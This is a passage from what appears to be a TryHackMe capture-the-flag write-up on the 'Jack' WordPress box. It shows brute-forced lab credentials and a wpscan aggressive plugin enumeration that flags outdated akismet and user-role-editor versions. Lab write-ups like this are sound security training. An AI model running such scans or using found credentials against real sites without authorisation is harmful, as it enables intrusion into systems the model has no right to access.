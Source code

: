 ```bash

[!] Valid Combinations Found:
 | Username: wendy, Password: changelater
...
```

<br>

<h3>wpscan | plugins</h3>
<p><code>wendy</code> : <code>changelater</code></p>

```bash
:~/Jack# wpscan --url http://jack.thm --enumerate p --plugins-detection aggressive
...
[+] Enumerating Most Popular Plugins (via Aggressive Methods)
 Checking Known Locations - Time: 00:00:12 <==================================================================================================================================================================================================================================================================> (1500 / 1500) 100.00% Time: 00:00:12
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] akismet
 | Location: http://jack.thm/wp-content/plugins/akismet/
 | Last Updated: 2021-03-02T18:10:00.000Z
 | Readme: http://jack.thm/wp-content/plugins/akismet/readme.txt
 | [!] The version is out of date, the latest version is 4.1.9
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://jack.thm/wp-content/plugins/akismet/, status: 200
 |
 | Version: 3.1.7 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://jack.thm/wp-content/plugins/akismet/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://jack.thm/wp-content/plugins/akismet/readme.txt

[+] user-role-editor
 | Location: http://jack.thm/wp-content/plugins/user-role-editor/
 | Last Updated: 2021-02-26T04:17:00.000Z
 | Readme: http://jack.thm/wp-content/plugins/user-role-editor/readme.txt
 | [!] The version is out of date, the latest version is 4.58.3
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://jack.thm/wp-content/plugins/user-role-editor/, status: 200
 |
 | Version: 4.24 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://jack.thm/wp-content/plugins/user-role-editor/readme.txt
```

<br>
